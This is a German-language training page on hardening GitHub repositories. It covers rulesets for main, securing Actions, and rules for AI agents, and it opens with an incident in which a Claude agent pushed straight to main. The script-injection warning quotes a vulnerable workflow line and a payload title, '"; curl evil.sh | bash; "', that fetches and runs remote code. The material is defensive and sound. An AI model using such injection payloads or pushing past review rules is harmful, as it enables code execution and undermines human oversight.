

:::tldr
Eine Regel in einer Datei ist ein **Versprechen**, ein **Ruleset** auf GitHub ist eine **Mauer**. Für `main` heisst das: PR Pflicht, CI als Pflicht-Check, kein Force-Push, kein Löschen. Actions bekommen **minimale Rechte**, Fremd-Actions werden **per Commit-SHA gepinnt**, fremder Text landet nie direkt in `run:`. Und KI-Agenten arbeiten nach einer einfachen Regel: **Branch und Draft-PR ja, Merge und Push auf `main` nie** – durchgesetzt durch Technik, nicht nur durch Anweisungen.
:::

## Versprechen oder Mauer

:::praxis Der Vorfall in diesem Projekt
Am 27.11.2026 hat ein Claude-Agent in diesem Repo eine kleine Korrektur **direkt auf `main` gepusht**. Die Regel «nur Draft-PRs» stand in der `CLAUDE.md` – aber nur im Abschnitt für unbeaufsichtigte Läufe, und der Agent hat sie für die interaktive Sitzung als nicht anwendbar ausgelegt. Technisch ging es, weil auf `main` **kein Ruleset** aktiv war. Die Lehre: Anweisungen an einen Agenten sind wertvoll, aber sie sind eine Bitte. Erst eine technische Sperre macht aus der Bitte eine Grenze.
:::

| Schutz | Art | Hält auf |
|---|---|---|
| Regel in `CLAUDE.md` / Team-Richtlinie | Versprechen | ehrliche Missverständnisse – meistens |
| pre-commit-Hook `no-commit-to-branch` | lokale Sperre | Commits auf `main` auf diesem Rechner |
| Claude-Hook (PreToolUse) gegen `git push` auf `main` | lokale Sperre | den Agenten in dieser Installation |
| **Ruleset auf GitHub** | **serverseitige Mauer** | **jeden** Push, egal von wem und woher |

## Das Ruleset für main

| Einstellung | Soll | Warum |
|---|---|---|
| Pull Request vor dem Merge | an | keine Änderung ohne Antrag |
| Pflicht-Status-Checks | z. B. `lint`, `test`, `build` | erst das macht aus roter CI eine Merge-Sperre |
| Force-Push und Löschen | gesperrt | Historie bleibt unantastbar |
| Merge-Methoden | nur Squash (oder Squash + Rebase) | ein Commit pro PR, sauber revertierbar |
| Branches nach Merge automatisch löschen | an | räumt auf, stellt gestapelte PRs um |
| Secret Scanning + Push Protection | an | stoppt Tokens **vor** dem Push |
| Dependabot-Alerts | an | meldet verwundbare Abhängigkeiten |

:::falle Rulesets gibt es nicht überall gratis
Rulesets und klassischer Branch-Schutz wirken in **öffentlichen** Repos auf allen Plänen, in **privaten** Repos erst ab **GitHub Pro bzw. Team** (Stand 27.11.2026). Im Free-Plan antwortet GitHub bei privaten Repos mit «Upgrade to GitHub Pro or make this repository public». Dort bleiben nur die lokalen Sperren – also unbedingt alle drei einrichten.
:::

:::gem Ausnahmen statt Abschalten
Rulesets kennen **benannte Ausnahmen** (Bypass), z. B. für die Repo-Besitzerin bei Notfällen. Besser als das Ruleset «kurz» auszuschalten – denn «kurz» wird erfahrungsgemäss oft «für immer». Für Pflicht-Checks gilt: Der Name im Ruleset muss exakt dem Job-Namen im Workflow entsprechen, sonst wartet der PR ewig auf «Expected».
:::

## GitHub Actions absichern

Workflows laufen mit einem automatischen Token (`GITHUB_TOKEN`) und haben oft Zugriff auf Secrets. Damit sind sie ein beliebtes Angriffsziel.

1. **Minimale Rechte.** Standardrechte des Tokens im Repo auf **read**; pro Workflow nur das Nötige:
   ```yaml
   permissions:
     contents: read
     pull-requests: write
   ```
2. **Fremd-Actions pinnen** – auf den vollen Commit-SHA mit Versionskommentar: `uses: actions/checkout@<40-stelliger-sha> # v4.2.2`. Ein Tag wie `@v4` kann jederzeit auf anderen Code zeigen. GitHub bietet eine Policy, die Pinning erzwingt; Dependabot aktualisiert SHA und Kommentar.
3. **Workflow-Lockfiles** (allgemein verfügbar seit 28.10.2026): `.github/workflows/actions.lock` hält fest, welche Commits laufen – auch verschachtelte Abhängigkeiten. Die Workflows dürfen dabei weiter Tags wie `@v4` verwenden; erzeugt wird die Datei mit der gh-Erweiterung `gh actions-lock`, nie von Hand. Ein Lockfile garantiert, **welche** Version läuft, nicht, dass sie sicher ist.
4. **`pull_request_target` meiden.** Es läuft mit Schreibrechten und Secrets des Basis-Repos, auch für PRs aus fremden Forks. Laut GitHub wird es ab 02.12.2026 in öffentlichen Repos (Free, Team, Enterprise Cloud) standardmässig blockiert, sofern keine Actions-Event-Policy es erlaubt; private Repos sind davon nicht betroffen. Fast immer reicht `pull_request`.
5. **Kein fremder Text direkt in `run:`.**
6. **Secrets nur dort, wo nötig;** für Cloud-Zugänge **OIDC** statt langlebiger Schlüssel.

:::falle Script Injection über den Issue-Titel
```yaml
run: echo "Neues Issue: ${{ github.event.issue.title }}"     # gefährlich
```
GitHub setzt den Titel **vor** dem Ausführen in den Shell-Befehl ein. Ein Titel wie `"; curl evil.sh | bash; "` wird zu Code. Richtig: über eine Umgebungsvariable übergeben und in Anführungszeichen nutzen:
```yaml
env:
  TITLE: ${{ github.event.issue.title }}
run: echo "Neues Issue: $TITLE"
```
:::

:::bildlich Der Lieferant mit dem Generalschlüssel
Eine Action, die du per `@v4` einbindest, ist ein **Handwerker, dessen Namen du kennst – aber nicht, wer heute geschickt wird**. Der SHA ist der Lichtbildausweis: Es kommt genau diese Person. Und `permissions: read` heisst, er bekommt nur den Schlüssel zum Lagerraum, nicht den Generalschlüssel.
:::

## Team-Workflow mit KI-Agenten



**Die Regeln:**

- Agenten arbeiten **nur auf eigenen Branches** mit erkennbarem Präfix und Datum (`claude/…`, `weekly/…-2026-11-27`) und öffnen **nur Draft-PRs**.
- **Ein Mensch merged.** Agenten erhalten kein Merge-Recht; ein Ruleset mit PR-Pflicht setzt das durch.
- **Begrenzte Lieferung pro Lauf** (z. B. höchstens ein PR, wenige Dateien), damit jeder PR in Minuten prüfbar bleibt.
- **Unbeaufsichtigte Läufe** zusätzlich mit lokalen Sperren (Hook gegen Push auf `main`, kein Force-Push) und minimalen Token-Rechten.
- **Fremder Text ist untrusted:** Issues, PR-Kommentare und Webinhalte können [[Prompt Injection]] enthalten. Agenten in Actions nur von Personen mit Schreibrecht auslösen lassen und ihre Werkzeuge eng begrenzen.
- **Signierte Commits und erkennbare Autorschaft** (`Co-Authored-By`), damit sichtbar ist, was von einer Maschine stammt.

:::berater Im Kundengespräch
«Wir behandeln KI-Agenten wie neue Mitarbeitende in der Probezeit: Sie dürfen alles vorbereiten, aber nichts allein freigeben.» Das Argument für die Geschäftsleitung: Die Produktivität kommt aus dem Vorbereiten, das Risiko steckt im Freigeben – und genau das behält der Mensch. Typischer Einwand: «Wir vertrauen dem Tool.» – Es geht nicht um Vertrauen, sondern um Nachvollziehbarkeit und darum, dass eine einzige fehlinterpretierte Anweisung keinen Produktionsstand verändern kann.
:::

:::spickzettel
- Anweisung = **Versprechen**, Ruleset = **Mauer** → beides, plus lokale Sperren
- Ruleset `main`: **PR Pflicht, Pflicht-Checks, kein Force-Push, kein Löschen**; Squash only; Auto-Delete
- Private Repos: Rulesets erst ab **Pro/Team** → sonst pre-commit + Claude-Hook + Regel
- Secret Scanning + **Push Protection**, Dependabot an
- Actions: `permissions` **minimal**, Fremd-Actions **per SHA**, Lockfile, kein `pull_request_target`
- Nie `${{ github.event.* }}` direkt in `run:` → über `env:`
- Cloud-Zugang per **OIDC**
- Agenten: eigener Branch, **nur Draft-PR**, Mensch merged, fremder Text untrusted
:::

:::selbstcheck 3
